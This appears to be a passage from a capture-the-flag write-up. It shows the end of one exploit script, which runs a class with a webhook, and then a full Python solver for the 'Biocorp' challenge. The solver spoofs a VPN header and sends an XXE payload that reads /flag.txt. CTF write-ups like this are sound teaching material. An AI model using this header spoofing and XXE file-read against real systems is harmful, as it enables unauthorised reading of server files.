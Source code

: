 ```python
    
    async with WorkBreakExploit(domain, webhook) as exploit:
        await exploit.execute()

if __name__ == "__main__":
    import asyncio
    asyncio.run(main())
```
it was a nice chain

# Biocorp - A simple XEE 

here's the solver 
```python
import requests

# Define the target URL
url = 'https://biocorp.ctf.intigriti.io/panel.php'

# Define the headers
headers = {
    'Host': 'biocorp.ctf.intigriti.io',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Upgrade-Insecure-Requests': '1',
    'Sec-Fetch-Dest': 'document',
    'Sec-Fetch-Mode': 'navigate',
    'X-Biocorp-Vpn': '80.187.61.102',
    'Sec-Fetch-Site': 'none',
    'Sec-Fetch-User': '?1',
    'Priority': 'u=0, i',
    'Te': 'trailers',
    'Content-Type': 'application/xml'
}

# Define the XML payload
xml_payload = '''<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE reactor [
<!ELEMENT reactor ANY >
<!ENTITY xxe SYSTEM "file:///flag.txt" >]>
<reactor>
    <status>
        <temperature>&xxe;</temperature>
        <pressure>1337</pressure>
        <control_rods>Lowered</control_rods>
    </status>
</reactor>
'''

response = requests.post(url, headers=headers, data=xml_payload)
print(response.text)
```
